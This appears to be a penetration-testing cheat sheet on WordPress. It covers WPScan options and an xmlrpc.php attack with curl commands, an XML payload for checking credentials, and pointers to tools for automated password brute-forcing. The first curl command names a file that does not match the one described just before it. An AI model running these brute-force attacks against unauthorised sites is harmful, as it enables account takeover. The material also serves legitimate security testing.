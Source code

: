 ## wpscan
**WPScan** is a widely-used open-source security scanner specifically designed to detect vulnerabilities in WordPress websites.

| Option                       | Description                                                                                         |
|------------------------------|-----------------------------------------------------------------------------------------------------|
| `--url`                       | Specifies the URL of the WordPress website you want to scan.                                         |
| `--enumerate`                 | Enumerates vulnerable plugins (`vp`), users (`u`), themes (`t`), and timthumbs (`p`).               |
| `--plugins-detection mixed`   | Specifies the plugin detection mode, in this case, "mixed," which includes both passive and aggressive detection methods. |
| `--passwords`                 | Specifies a file containing a list of passwords to use for brute force attacks.                     |
| `--usernames`                 | Specifies a file containing usernames to use for brute force attacks.                               |
| `--exclude-content-length`    | Excludes the Content-Length header from requests.                                                   |
| `--proxy`                     | Specifies a proxy to use for the scan.                                                              |
| `--random-agent`              | Uses a random User-Agent for each request.                                                          |
| `--verbose`                   | Increases the verbosity level of the output, providing more detailed information about the scan process. |


#### Basic usage
```bash
wpscan --url <url>
```
#### Other options
```bash
wpscan --enumerate vp,u,t,p \
       --plugins-detection mixed \
       --passwords /path/to/passwords.txt \
       --usernames /path/to/usernames.txt \
       --exclude-content-length \
       --proxy http://proxy.example.com:8080 \
       --random-agent \
       --verbose
```

## xmlrpc.php
**xmlrpc.php** is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism.

#### Risks of xmlrpc.php

1. **Brute Force Attacks**: Attackers can automate login attempts via XML-RPC, bypassing traditional login protections.
2. **DDoS Attacks**: Attackers can exploit XML-RPC to send multiple requests, overloading the server or launching amplified DDoS attacks.
3. **Pingback Amplification**: Malicious pingback requests can be used to reflect traffic to other sites, creating a DDoS attack.
4. **Vulnerabilities**: Older WordPress versions may have exploitable bugs in `xmlrpc.php`, enabling remote code execution (RCE) or other attacks.

#### Attack process
Check if `xmlrpc.php` exists and is active on the target site. Create an XML file named `list_methods.xml` with the following content:

```bash
<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
```

Use `curl` to send the XML file as a POST request:

```bash
curl -X POST -H "Content-Type: application/xml" --data @rev http://<target_ip>/xmlrpc.php
```

If the file is active, the response will list all supported methods, such as:

- `getUsersBlogs`
- `wp.getCategories`
- `system.multicall`
- `pingback.ping`

Next, create a file named `bruteforce.xml`:

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

Send the payload using `curl`:

```bash
curl -X POST -H "Content-Type: application/xml" --data @bruteforce.xml http://<target_ip>/xmlrpc.php
```

If the response contains valid blog information, the credentials are correct. Automate this process for multiple attempts with tools like `wpscan` or custom scripts.

#### Attack process using WPScan

WPScan simplifies brute force attacks and XML-RPC vulnerability scans.

```bash
wpscan --url http://<target_ip>/ --enumerate u,vp,t --random-agent --passwords /path/to/passwords.txt --usernames /path/to/usernames.txt
```

#### Using Custom Scripts

For fine-grained control, use custom scripts like [kill-xmlrpc](https://github.com/R-kill-9/kill-xmlrpc) to automate brute force or exploitation.